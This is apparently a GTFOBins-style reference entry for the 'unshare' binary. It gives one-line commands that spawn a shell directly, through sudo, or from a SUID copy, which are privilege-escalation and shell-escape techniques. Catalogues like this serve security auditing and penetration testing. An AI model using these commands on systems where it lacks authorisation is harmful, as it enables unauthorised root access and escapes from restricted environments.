 ```yaml
---
functions:
  execute-interactive:
    - code: unshare /bin/sh
  sudo-enabled:
    - code: sudo unshare /bin/sh
  suid-enabled:
    - code: ./unshare -r /bin/sh
---
```

